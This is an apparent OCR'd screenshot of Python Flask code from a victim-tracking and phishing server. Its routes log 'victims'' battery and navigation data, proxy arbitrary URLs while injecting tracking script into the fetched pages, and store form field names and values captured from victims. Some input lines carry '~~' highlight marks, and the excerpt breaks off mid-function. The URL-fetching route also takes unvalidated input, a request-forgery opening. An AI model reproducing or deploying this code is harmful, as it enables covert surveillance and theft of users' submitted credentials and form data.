 ```python
        db.sentences_victim('connection_victim', [vId, con, host], 2)
        return json.dumps({'status' : 'OK', 'vId' : vId})

    @app.route("/bs", methods=["POST"])
    def batteryStatusRegister():
~~        vId = request.form['id']
~~        b_data = request.form['d']
~~        b_type = request.form['t']
        
        db.sentences_victim('update_battery', [vId, b_data, b_type], 2)
        return json.dumps({'status' : 'OK', 'vId' : vId})

    @app.route("/nm", methods=["POST"])
    def navigationMode():
~~        vId = request.form['id']
~~        b_data = request.form['d']
~~        b_data_2 = request.form['dn']
        
        db.sentences_victim('update_navigationmode', [vId, b_data, b_data_2], 2)
        return json.dumps({'status' : 'OK', 'vId' : vId})

    @app.route("/rv")
    def redirectVictim():
~~        url = request.args.get('url')
        if url[0:4] != 'http':
            url = 'http://' + url
        opener = urllib2.build_opener()
        headers = victim_headers(request.user_agent)
        opener.addheaders = headers
        html = assignScripts(victim_inject_code(opener.open(url).read(), 'vscript', url, trape.gmaps, trape.ipinfo))
        return html

    @app.route("/regv", methods=["POST"])
    def registerRequest():
~~        vrequest = victim_request(request.form['vId'], request.form['site'], request.form['fid'], request.form['name'], request.form['value'], request.form['sId'])
        db.sentences_victim('insert_requests', [vrequest, time.strftime("%Y-%m-%d - %H:%M:%S")], 2)

